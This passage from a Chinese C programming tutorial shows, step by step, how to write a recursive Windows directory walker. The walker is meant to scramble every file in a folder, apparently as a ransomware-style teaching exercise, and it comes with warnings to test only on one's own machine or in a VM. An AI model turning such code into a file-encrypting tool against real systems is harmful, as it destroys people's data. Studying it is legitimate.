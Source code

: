 运行程序后，我们打开test.txt查看如下，发现一个简单的加密或扰乱完成，变成了一堆乱码。当加密函数写好之后，我们接着需要编写一个遍历文件夹的函数，实现对整个目录进行加密处理。

**<mark>注意，这里仅允许大家加密自己电脑的文件夹或者在虚拟机中进行实验，不要去恶意损坏他人的计算机设备，一切破坏和攻击行为后果自负。</mark>**

**第五步，编写遍历文件夹函数。**<br/> 通常遍历文件夹采用的是递归方法，依次遍历某个目录的文件夹，深度搜索文件夹中的内容，如果是文件就加密，如果是文件夹就继续深度搜索，直至找到文件依次返回，从而实现整个目录的文件遍历。

```
//遍历文件夹找到每个文件 参数-文件夹名字
void findFile(char* pathName)
{
	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */
	//设置要找的文件名 通配符实现
	char findFileName[256];
	memset(findFileName, 0, 256);                   //清空数组
	sprintf(findFileName, "%s\\*.*", pathName);
	printf("要找的文件名是：%s\n", findFileName);
	return;
}

int main()
{
	//jiami("C:\\Users\\xiuzhang\\Desktop\\文件夹加密\\test.txt");
	//获取当前文件夹
	char buff[256] = { 0 };
	GetCurrentDirectory(256, buff);
	printf("当前目录是：%s\n\n", buff);
	return 0;
}

```

上述代码通过自定义函数遍历文件夹，同时调用API函数获取当前目录，核心函数为：

输出结果如下图所示：

**第六步，进一步完善遍历文件夹递归调用函数。**

```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;windows.h&gt;
#include &lt;stdlib.h&gt;

//遍历文件夹找到每个文件 参数-文件夹名字
void findFile(char* pathName)
{
	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */

	//1.设置要找的文件名 通配符实现
	char findFileName[256];
	memset(findFileName, 0, 256);                   //清空数组
	sprintf(findFileName, "%s\\*.*", pathName);
	printf("要找的文件名是：%s\n", findFileName);

	//2.获取目录下第一个文件
	WIN32_FIND_DATA findData;                    //定义结构体
	HANDLE hFile = FindFirstFile(findFileName, &amp;findData);
	//判断返回值等于-1(INVALID_HANDLE_VALUE)
	if (INVALID_HANDLE_VALUE == hFile) {
		printf("查找文件失败!\n");
		return;
	}
	//如果成功进入死循环继续查找下一个文件
	else {
		int ret = 1;
		char temp[256];
```